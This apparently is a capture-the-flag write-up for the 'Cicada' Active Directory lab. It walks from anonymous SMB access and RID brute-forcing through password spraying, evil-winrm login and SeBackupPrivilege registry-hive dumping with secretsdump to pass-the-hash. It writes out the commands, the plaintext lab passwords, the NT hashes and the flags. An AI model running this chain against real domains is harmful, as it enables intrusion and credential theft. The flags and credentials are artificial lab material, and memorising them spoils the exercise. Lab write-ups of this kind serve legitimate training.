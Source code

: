```yaml
---
sticker: emoji//1fab0
---
```

# ENUMERATION
---

## OPEN PORTS
---

| PORT   | SERVICE       |
| :----- | :------------ |
| 53/tcp | domain        |
| 88/tcp | kerberos-sec  |
| 135/tcp| msrpc         |
| 139/tcp| netbios-ssn   |
| 389/tcp| ldap          |
| 445/tcp| microsoft-ds? |
| 464/tcp| kpasswd5?     |
| 593/tcp| ncacn_http    |
| 636/tcp| ssl/ldap      |
| 3268/tcp| ldap         |
| 3269/tcp| ssl/ldap     |
| 5985/tcp| http         |
Let's start reconnaissance.

# RECONNAISSANCE
---

We are facing a AD machine, let's start with some basic SMB enumeration:


![](../images/Pasted%20image%2020250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![](../images/Pasted%20image%2020250116135538.png)


We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![](../images/Pasted%20image%2020250116135823.png)


We found interesting shares, let's check out `HR`:

![](../images/Pasted%20image%2020250116135909.png)


We find a `Notice from HR.txt` file, let's download it and check it:

![](../images/Pasted%20image%2020250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)     
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)               
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)                       
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)                         
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)     
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)      
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```



# EXPLOITATION
---

Let's store all the usernames in a file and perform password spraying:


`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`


![](../images/Pasted%20image%2020250116140940.png)



We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```


We can search for more privileged users:

![](../images/Pasted%20image%2020250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```


Let's check the shares this account has access to:


![](../images/Pasted%20image%2020250116141414.png)

We can now read the `DEV` share, let's take a look at it:


![](../images/Pasted%20image%2020250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:



![](../images/Pasted%20image%2020250116141718.png)

Found more credentials: 

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```


Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`


![](../images/Pasted%20image%2020250116142124.png)

```


We can read `user.txt` and begin with privilege escalation:

```ad-note
![](../images/Pasted%20image%2020250116142223.png)

User: `74b2598907182ac31cca52c79b20eb0a`
```

# PRIVILEGE ESCALATION
---

In order to begin with privilege escalation, we can start enumerating our privileges:


`whoami /priv`


![](../images/Pasted%20image%2020250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![](../images/Pasted%20image%2020250116142600.png)

![](../images/Pasted%20image%2020250116142623.png)


But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----

![](../images/Pasted%20image%2020250116144219.png)

And like that, we can get our admin hash.
```


```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![](../images/Pasted%20image%2020250116144347.png)

And our root flag is the following: 

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```


